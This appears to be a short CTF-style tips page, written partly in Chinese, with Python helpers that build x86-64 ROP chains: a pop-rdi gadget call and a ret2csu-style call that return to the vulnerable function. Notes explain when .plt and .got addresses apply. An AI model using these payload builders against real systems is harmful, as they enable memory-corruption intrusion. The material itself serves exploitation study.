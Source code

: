 ##Tips:
```Python
*1
def gadget_arg1(func_addr, arg):
    payload = overwrite
    payload += p64(poprdiret_addr)
    payload += p64(arg)
    payload += p64(func_addr)
    payload += p64(vulnfunc_addr)
    return payload
*2
def gadget_call(func_addr, arg1=0, arg2=0, arg3=0, init_ret1=movcall_addr, init_ret2=vulnfunc_addr):
    payload = overwrite
    payload += p64(pop5ret_addr)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)
    payload += p64(arg3) + p64(arg2) + p64(arg1)
    payload += p64(init_ret1)    # call 
    payload += '\x00'*(7*0x8)       # pop7
    payload += p64(init_ret2)   # 最后返回到有漏洞的地方下次再次利用
    return payload
```

##注意。
###1.最后是ret左右func_addr应该是plt段的函数地址，<br>
例如.plt [puts] = 0x400500 <br>
调用的时候是rip先到0x400500(这里的指令对应jmp 0x7???????)然后跳到该函数真正地址<br>
但是如果ret 0x601018(这是got表 里面存的是真正的函数地址的值) 就会执行0x601018这个地址对应的值(转换成code)<br>

###2. call func_addr
必须是got的地址<br>
.got[read] = 0x601028<br>
调用的时候是call 0x601028(call的是真正的函数的地址 比如call 0x7ff????????)<br>
但是如果用ret 就会ret到0x601028 rip指向0x601028 明显不是真正func_addr的地址<br>

###总结
ret 后面必须是 .plt<br>
__libc_init 里用call来必须是 .got的<br>


